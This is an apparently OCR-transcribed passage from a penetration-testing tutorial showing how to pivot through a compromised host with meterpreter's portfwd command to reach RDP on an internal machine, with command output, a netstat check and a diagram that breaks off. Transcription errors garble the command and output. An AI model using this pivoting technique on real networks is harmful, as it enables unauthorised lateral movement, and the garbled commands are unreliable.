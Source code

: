 Therefore, if we want to access a webserver, a share or any other service on the remote network, we can just set a port forwarding rule through the meterpreter session, and access it from our local address.
  For example, the following command will open a listener on our local IP address on port 3333, and will forward the connection to the IP address `10.10.10.5` on port 3389:
    ```
    meterpreter > portfwd add -1 3333 -p 3389 -r 10.10.10.5
    [*] Local TCP relay created: 0.0.0.0:333 <-> 10.10.10.5:3389
    meterpreter > portfwd
    0: 0.0.0.0:3333 -> 10.10.10.5:3389

    1 total local port forwards.
    ```

  Once the commands runs, we should see a listening connection, like the following:
    ```
    stduser@les:~/Downloads$ netstat -tulpn | grep 3333
    (Nott all process could be identified, non-owned process info will not be shown, you would have to be root to see it all.)
    tcp     0     0 0.0.0.0:3333        0.0.0.0:*     LISTEN      -
    ```

  Now that we are sure we are listening for incoming connection on port 3333, e can try to establish an RDP session with the machine `10.10.10.5`.

  Once again, remember that the traffic will go through the exploited machine, to the target machine.
    ```
    Attacker : portfwd listener (0.0.0.0:3333)->Meterpreter session
                                                        |
                                                        V
                                       Exploited machine : 10.10.10.15

